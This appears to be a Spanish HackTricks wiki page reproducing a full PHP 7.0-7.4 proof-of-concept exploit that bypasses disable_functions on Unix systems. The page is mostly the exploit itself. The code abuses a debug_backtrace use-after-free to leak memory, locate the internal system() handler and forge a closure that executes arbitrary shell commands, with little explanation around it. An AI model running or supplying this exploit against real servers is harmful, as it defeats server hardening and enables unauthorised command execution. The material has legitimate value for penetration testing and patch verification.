 # Bypass de disable\_functions - PHP 7.0-7.4 (solo \*nix)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres ver tu **empresa anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión de PEASS o descargar HackTricks en PDF**? ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs al [repositorio de hacktricks](https://github.com/carlospolop/hacktricks) y al [repositorio de hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## PHP 7.0-7.4 (solo \*nix)

Desde [https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php](https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php)
```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
global $abc, $helper, $backtrace;

class Vuln {
public $a;
public function __destruct() {
global $backtrace;
unset($this->a);
$backtrace = (new Exception)->getTrace(); # ;)
if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
$backtrace = debug_backtrace();
}
}
}

class Helper {
public $a, $b, $c, $d;
}

function str2ptr(&$str, $p = 0, $s = 8) {
$address = 0;
for($j = $s-1; $j >= 0; $j--) {
$address <<= 8;
$address |= ord($str[$p+$j]);
}
return $address;
}

function ptr2str($ptr, $m = 8) {
$out = "";
for ($i=0; $i < $m; $i++) {
$out .= chr($ptr & 0xff);
$ptr >>= 8;
}
return $out;
}

function write(&$str, $p, $v, $n = 8) {
$i = 0;
for($i = 0; $i < $n; $i++) {
$str[$p + $i] = chr($v & 0xff);
$v >>= 8;
}
}

function leak($addr, $p = 0, $s = 8) {
global $abc, $helper;
write($abc, 0x68, $addr + $p - 0x10);
$leak = strlen($helper->a);
if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
return $leak;
}

function parse_elf($base) {
$e_type = leak($base, 0x10, 2);

$e_phoff = leak($base, 0x20);
$e_phentsize = leak($base, 0x36, 2);
$e_phnum = leak($base, 0x38, 2);

for($i = 0; $i < $e_phnum; $i++) {
$header = $base + $e_phoff + $i * $e_phentsize;
$p_type  = leak($header, 0, 4);
$p_flags = leak($header, 4, 4);
$p_vaddr = leak($header, 0x10);
$p_memsz = leak($header, 0x28);

if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
# handle pie
$data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
$data_size = $p_memsz;
} else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
$text_size = $p_memsz;
}
}

if(!$data_addr || !$text_size || !$data_size)
return false;

return [$data_addr, $text_size, $data_size];
}

function get_basic_funcs($base, $elf) {
list($data_addr, $text_size, $data_size) = $elf;
for($i = 0; $i < $data_size / 8; $i++) {
$leak = leak($data_addr, $i * 8);
if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
$deref = leak($leak);
# 'constant' constant check
if($deref != 0x746e6174736e6f63)
continue;
} else continue;

$leak = leak($data_addr, ($i + 4) * 8);
if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
$deref = leak($leak);
# 'bin2hex' constant check
if($deref != 0x786568326e6962)
continue;
} else continue;

return $data_addr + $i * 8;
}
}

function get_binary_base($binary_leak) {
$base = 0;
$start = $binary_leak & 0xfffffffffffff000;
for($i = 0; $i < 0x1000; $i++) {
$addr = $start - 0x1000 * $i;
$leak = leak($addr, 0, 7);
if($leak == 0x10102464c457f) { # ELF header
return $addr;
}
}
}

function get_system($basic_funcs) {
$addr = $basic_funcs;
do {
$f_entry = leak($addr);
$f_name = leak($f_entry, 0, 6);

if($f_name == 0x6d6574737973) { # system
return leak($addr + 8);
}
$addr += 0x20;
} while($f_entry != 0);
return false;
}

function trigger_uaf($arg) {
# str_shuffle prevents opcache string interning
$arg = str_shuffle(str_repeat('A', 79));
$vuln = new Vuln();
$vuln->a = $arg;
}

if(stristr(PHP_OS, 'WIN')) {
die('This PoC is for *nix systems only.');
}

$n_alloc = 10; # increase this value if UAF fails
$contiguous = [];
for($i = 0; $i < $n_alloc; $i++)
$contiguous[] = str_shuffle(str_repeat('A', 79));

trigger_uaf('x');
$abc = $backtrace[1]['args'][0];

$helper = new Helper;
$helper->b = function ($x) { };

if(strlen($abc) == 79 || strlen($abc) == 0) {
die("UAF failed");
}

# leaks
$closure_handlers = str2ptr($abc, 0);
$php_heap = str2ptr($abc, 0x58);
$abc_addr = $php_heap - 0xc8;

# fake value
write($abc, 0x60, 2);
write($abc, 0x70, 6);

# fake reference
write($abc, 0x10, $abc_addr + 0x60);
write($abc, 0x18, 0xa);

$closure_obj = str2ptr($abc, 0x20);

$binary_leak = leak($closure_handlers, 8);
if(!($base = get_binary_base($binary_leak))) {
die("Couldn't determine binary base address");
}

if(!($elf = parse_elf($base))) {
die("Couldn't parse ELF header");
}

if(!($basic_funcs = get_basic_funcs($base, $elf))) {
die("Couldn't get basic_functions address");
}

if(!($zif_system = get_system($basic_funcs))) {
die("Couldn't get zif_system address");
}

# fake closure object
$fake_obj_offset = 0xd0;
for($i = 0; $i < 0x110; $i += 8) {
write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
}

# pwn
write($abc, 0x20, $abc_addr + $fake_obj_offset);
write($abc, 0xd0 + 0x38, 1, 4); # internal func type
write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

($helper->b)($cmd);
exit();
}
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres ver tu **empresa anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión de PEASS o descargar HackTricks en PDF**? ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme en** **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs al [repositorio de hacktricks](https://github.com/carlospolop/hacktricks) y al [repositorio de hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
